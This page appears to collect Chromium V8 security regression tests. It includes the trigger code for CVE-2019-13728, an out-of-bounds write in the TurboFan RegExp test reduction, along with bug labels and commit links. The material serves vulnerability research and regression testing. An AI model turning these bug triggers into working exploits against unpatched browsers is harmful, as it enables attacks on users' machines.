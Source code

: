 ```javascript
  h[-1] = {};
}
f();
f();  
```  
  
[[Diff]](https://chromium.googlesource.com/v8/v8/+/31fab14^!)  
[BUILD.gn](https://cs.chromium.org/chromium/src/v8/BUILD.gn?cl=31fab14)  
[src/diagnostics/objects-debug.cc](https://cs.chromium.org/chromium/src/v8/src/diagnostics/objects-debug.cc?cl=31fab14)  
[src/heap/factory.cc](https://cs.chromium.org/chromium/src/v8/src/heap/factory.cc?cl=31fab14)  
[test/mjsunit/regress-crbug-1025468.js](https://cs.chromium.org/chromium/src/v8/test/mjsunit/regress-crbug-1025468.js?cl=31fab14)  
  

---   

## **regress-crbug-1024758.js (chromium issue)**  
   
**[Issue: Security: OOB Write in ReduceRegExpPrototypeTest](https://crbug.com/1024758)**  
**[Commit: [compiler] Fix RegExpPrototypeTest reduction](https://chromium.googlesource.com/v8/v8/+/aecd843)**  
  
Date(Commit): Tue Nov 19 14:21:12 2019  
Components: Blink>JavaScript, Blink>JavaScript>Compiler  
Labels: Hotlist-Merge-Review, Security_Impact-Stable, Security_Severity-High, reward-7500, allpublic, reward-inprocess, CVE_description-submitted, Merge-Rejected-78, Target-78, M-78, VulnerabilityAnalysis-Requested, Merge-Merged-79, Release-0-M79, CVE-2019-13728  
Code Review: [https://chromium-review.googlesource.com/c/v8/v8/+/1924353](https://chromium-review.googlesource.com/c/v8/v8/+/1924353)  
Regress: [mjsunit/regress/regress-crbug-1024758.js](https://chromium.googlesource.com/v8/v8/+/master/test/mjsunit/regress/regress-crbug-1024758.js)  
```javascript
function f() {
  return r.test("abc");
}

function to_dict(o) {
  r.a = 42;
  r.b = 42;
  delete r.a;
}

function to_fast(o) {
  const obj = {};
  const obj2 = {};
  delete o.a;
  obj.__proto__ = o;
  obj[0] = 1;
  obj.__proto__ = obj2;
  delete obj[0];
  return o;
}

const r = /./;
to_dict(r);
to_fast(r);

%PrepareFunctionForOptimization(f);
assertTrue(f());
%OptimizeFunctionOnNextCall(f);
assertTrue(f());  
```  
  